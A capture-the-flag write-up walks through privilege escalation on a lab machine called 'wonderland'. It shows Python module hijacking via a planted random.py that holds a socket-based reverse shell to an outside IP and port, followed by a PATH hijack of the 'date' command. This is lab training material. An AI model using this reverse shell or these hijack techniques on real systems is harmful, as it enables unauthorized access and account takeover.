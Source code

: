 Can we find sudo permissions?

`sudo -l`

```text
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Interesting that we can run sudo as rabbit.  Is it possible we can take advantage of the random module in the script?  To the internet!

From here, I came across some resources telling me that it is very possible that the python script will look in the current working directory first when importing the module.  In this case, I just need to create a script called `random.py` and running the walrus script with the sudo cred and path should allow my script to run.  In doing this I should be able to reverse shell and gain access to the rabbit account.


## Exploitation
____________________________


I will just use a simple reverse shell script using sockets

```shell
#!
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.46.115",5000))
p=subprocess.call(["/bin/bash","-i"])  
```
Now we run the script with `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`


whoami reveals that I am now rabbit@wonderland

Navigating to the rabbit directory finds one file

```text
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

teaParty appears to be an executable file.  If we cat it out we notice that there appears to be an easy vuln just sitting there with the seg fault, but in getting the file on our local machine we can analyze it and see it is fake!  It is put in directly by the program. But there is also something juicier.  It appears to use the date variable by taking date and adding an hour.  

In searching I found a way to privesc from the usage of this variable by writing the date variable in tmp and setting the path to the tmp directory.   Typically this would land us as root, but for whatever reason, in this case, it only gets us to the Hatter account.
